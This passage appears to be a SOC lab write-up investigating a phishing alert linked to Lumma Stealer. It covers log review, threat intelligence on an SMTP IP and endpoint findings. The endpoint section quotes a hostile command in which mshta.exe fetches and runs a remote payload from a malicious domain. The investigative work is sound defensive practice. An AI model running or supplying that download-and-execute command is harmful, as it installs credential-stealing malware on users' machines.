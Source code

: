<img src="https://i.imgur.com/Sd9eN5R.png" height="80%" width="80%" alt="Virus Total Results"/>

---

<img src="https://i.imgur.com/vG3U1N8.png" height="80%" width="80%" alt="Virus Total Results"/>

---

### 📚 Log Review

We then proceeded to the **Log Management** section to determine if the email had been accessed. By querying the system using the destination email address (`dylan@letsdefend.io`), we confirmed that **the malicious URL had indeed been clicked**, indicating potential execution of the payload.


<img src="https://i.imgur.com/2GpgwNb.png" height="80%" width="80%" alt="Virus Total Results"/>

---

<img src="https://i.imgur.com/Wz97269.png" height="80%" width="80%" alt="Virus Total Results"/>

---

<img src="https://i.imgur.com/EjRtQvn.png" height="80%" width="80%" alt="Virus Total Results"/>

---


### 🧠 Threat Intel/Attribution

The **SMTP IP address (132.232.40.201)** used in the phishing attempt was associated with known **Lumma Stealer C2 infrastructure**, supporting the initial rule trigger of **SOC338**.

---

<img src="https://i.imgur.com/5dWdN63.png" height="80%" width="80%" alt="Virus Total Results"/>

---

### 🖥️ Endpoint Analysis

In the **Endpoint Analysis** section, we identified suspicious PowerShell activity:
- On **March 13, 2025, at 23:26:31 and 23:26:32**, two PowerShell processes (IDs **7308** and **624**) executed the following command: [C:\Windows\system32\mshta.exe https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4]
- This indicates that mshta.exe was used to execute a malicious file from the suspicious domain overcoatpassably.shop. mshta.exe is a legitimate Microsoft tool often abused in attacks for executing HTA (HTML Application) files. The presence of the malicious link suggests that this was part of the malware's download and execution process.

---

<img src="https://i.imgur.com/UblEtIQ.png" height="80%" width="80%" alt="Virus Total Results"/>

---